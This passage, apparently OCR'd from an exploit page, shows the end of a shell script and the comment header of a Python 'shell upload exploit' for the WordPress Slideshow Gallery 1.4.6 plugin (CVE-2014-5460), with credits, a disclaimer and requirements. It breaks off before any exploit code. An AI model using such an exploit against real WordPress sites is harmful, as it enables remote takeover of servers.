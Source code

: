     # cleanup

    rm -rf cookie

## Python

    #!/usr/bin/env python
    #
    # WordPress Slideshow Gallery 1.4.6 Shell Upload Exploit
    #
    # WordPress Slideshow Gallery plugin version 1.4.6 suffers from a remote shell upload vulnerability (CVE-2014-5460)
    #
    # Vulnerability discovered by: Jesus Ramirez Pichardo - http://whitexploit.blogspot.mx/
    #
    # Exploit written by: Claudio Viviani - info@homelab.it - http://www.homelab.it
    #
    #
    # Disclaimer:
    #
    # This exploit is intended for educational purposes only and the author
    # can not be held liable for any kind of damages done whatsoever to your machine,
    # or damages caused by some other,creative application of this exploit.
    # In any case you disagree with the above statement,stop here.
    #
    #
    # Requirements:
    #
    # 1) Enabled user management slide
    # 2) python's httplib2 lib
    #    Installation: pip install httplib2
    #
    # Usage:
    #